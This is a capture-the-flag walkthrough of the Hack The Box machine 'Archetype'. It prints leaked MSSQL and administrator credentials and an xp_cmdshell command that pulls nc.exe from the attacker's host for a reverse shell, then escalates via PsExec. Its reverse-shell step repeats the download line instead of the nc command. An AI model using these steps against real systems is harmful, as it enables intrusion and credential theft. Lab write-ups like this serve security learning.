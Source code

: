 # ARCHETYPE 

Tags : #windows #smb #mssql #impacket #powershellhistory #ConsoleHost_History #PSReadLine

## Platform : Windows
## IP Address : 10.10.10.27


Nmap Scan
All tcp port scan

```
arrow@ideapad:~/htb/archetype$ nmap -sV -Pn -p- --min-rate 300 -oA alltcp 10.10.10.27

Starting Nmap 7.60 ( https://nmap.org ) at 2021-05-16 15:33 IST
Stats: 0:02:57 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 72.75% done; ETC: 15:37 (0:01:06 remaining)
Nmap scan report for 10.10.10.27
Host is up (0.47s latency).
Not shown: 65523 closed ports
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1433/tcp  open  ms-sql-s     Microsoft SQL Server vNext tech preview 14.00.X
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

we can see smb file share 
lets view the shares and connect to them

```
arrow@ideapad:~/htb/archetype/smbmap$ smbclient -L 10.10.10.27
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\arrow's password: 

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	backups         Disk      
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
Reconnecting with SMB1 for workgroup listing.
Connection to 10.10.10.27 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Failed to connect with SMB1 -- no workgroup available
arrow@ideapad:~/htb/archetype/smbmap$ smbclient \\\\10.10.10.27\\backups
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\arrow's password: 
Try "help" to get a list of possible commands.
smb: \> 


```


backups directory has anonymous access allowed.
lets see what are the contents inside the folder

```
smb: \> dir
  .                                   D        0  Mon Jan 20 17:50:57 2020
  ..                                  D        0  Mon Jan 20 17:50:57 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 17:53:02 2020

		10328063 blocks of size 4096. 8245514 blocks available
smb: \> 


```
there is a config file let's 
get onto our system 

```
smb: \> get prod.dtsConfig 
getting file \prod.dtsConfig of size 609 as prod.dtsConfig (0.3 KiloBytes/sec) (average 0.3 KiloBytes/sec)
```

let's view the contents of the file 

```
arrow@ideapad:~/htb/archetype$ cat prod.dtsConfig 
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>

```
we got the userid and the password for mssql login
```
id - ARCHETYPE\sql_svc
password - M3g4c0rp123
```
now let's use impacket's mssql python script and login into the server

```
                                           
┌──(kali㉿kali)-[~/tools/scripts]
└─$ python3 mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth                                                           130 ⨯
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL> help

     lcd {path}                 - changes the current local directory to {path}
     exit                       - terminates the server process (and this session)
     enable_xp_cmdshell         - you know what it means
     disable_xp_cmdshell        - you know what it means
     xp_cmdshell {cmd}          - executes cmd using xp_cmdshell
     sp_start_job {cmd}         - executes cmd using the sql server agent (blind)
     ! {cmd}                    - executes a local shell cmd
     
SQL> 


```
now type enable_xp_cmdshell to enable the cmd shell
after we can execute commands

```
SQL> xp_cmdshell whoami
output                                                                             

--------------------------------------------------------------------------------   

archetype\sql_svc                                                                  

NULL                                                                               

SQL> 

```

now upload nc.exe to windows machine into sql_svc user's Desktop

```
SQL> xp_cmdshell powershell wget -usebasicparsing http://10.10.17.29:8000/nc.exe -outfile C:\Users\sql_svc\Desktop\nc.exe
```
now get a reverse shell 

```
SQL> xp_cmdshell powershell wget -usebasicparsing http://10.10.17.29:8000/nc.exe -outfile C:\Users\sql_svc\Desktop\nc.exe
```
on our kali 
```
$ rlwrap nc -nvlp 1234
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.10.27.
Ncat: Connection from 10.10.10.27:49739.
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

whoami
whoami
archetype\sql_svc

C:\Windows\system32>

```

we need to get to system user
lets type **whoami /priv** to know what privileges we have 

```
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```
we have **SeImpersonatePrivilege**
we can try potato exploits to get to system

I tried juicy potato but didnot work

Let's run WinPEAS 

on Running winpeas we have some credentials in powershell command history file 
```
C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

```
credentials are 

```
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
```

We cannot run **runas** command because it asks for password 
so lets run **PsExec**

```
python3 PsExec.py Administrator@10.10.10.27 cmd
```
enter password and u will get shell

![[Pasted image 20210516192232.png]]
